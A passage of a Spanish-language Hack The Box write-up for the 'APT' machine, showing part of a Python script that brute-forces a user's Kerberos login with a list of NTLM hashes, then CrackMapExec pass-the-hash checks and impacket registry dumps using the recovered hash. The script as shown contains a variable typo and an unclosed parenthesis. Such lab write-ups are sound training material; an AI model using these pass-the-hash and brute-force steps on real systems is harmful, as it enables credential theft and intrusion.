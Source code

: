 ```python
            if(ord(c)==0x0b):
                print('[+] Valid Login: %s:%s'%(user_name,orgin_key))

if __name__ == '__main__':
    user_realm = 'htb.local'
    username = 'henry.vinson'
    kdc_a = 'apt'

    f = open("hash", "r")
    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")
    number = 1
    for ntlm in f.readlines():
        ntlm = ntlm.strip('\n')
        p1.status("Probando con el Hash [%s/2000]: %s" % (str(number), ntlm)
        user_key = (RC4_HMAC, ntml.decode('hex'))
        passwordspray_tcp(user_realm, username, user_key, kdc_a, ntlm)

```

Hemos cambiado el **socket.AF_INET** en **socket.AF_INET6** y el main para que podamos leer el fichero de hashes.

Lanzando el script, encontramos un hash valido. Lo verificamos

```bash
pushd /opt/CrackMapExec
poetry run crackmapexec smb dead:beef::b885:d62a:d679:573f -u 'henry.vinson' -H 'e53d87d42adaa3ca32bdb34a876cbffb'
```

> [ ! ] NOTAS: Podriamos hacer ASProasting o Kerberoasting attack pero S4vi nos adelanta que no funcciona y que ademas es complicado con IPV6


### Dumpeo de registros desde la maquina local {-}

Los registros se pueden dumpear desde la maquina local. Es interessante siempre probar esto porque se puede encontrar informaciones de esta manera.
Los registros son:

- HKCR
- HKCU
- HKLM
- HKU
- HKCC
- HKPD

Utilizamos la heramienta **reg.py** de impacket para lograr esto.

```bash
impacket-reg.py -hashes :e53d87d42adaa3ca32bdb34a876cbffb htb.local/henry.vinson@apt query -keyName HKCR
impacket-reg.py -hashes :e53d87d42adaa3ca32bdb34a876cbffb htb.local/henry.vinson@apt query -keyName HKCU
impacket-reg.py -hashes :e53d87d42adaa3ca32bdb34a876cbffb htb.local/henry.vinson@apt query -keyName HKLM
impacket-reg.py -hashes :e53d87d42adaa3ca32bdb34a876cbffb htb.local/henry.vinson@apt query -keyName HKU
```
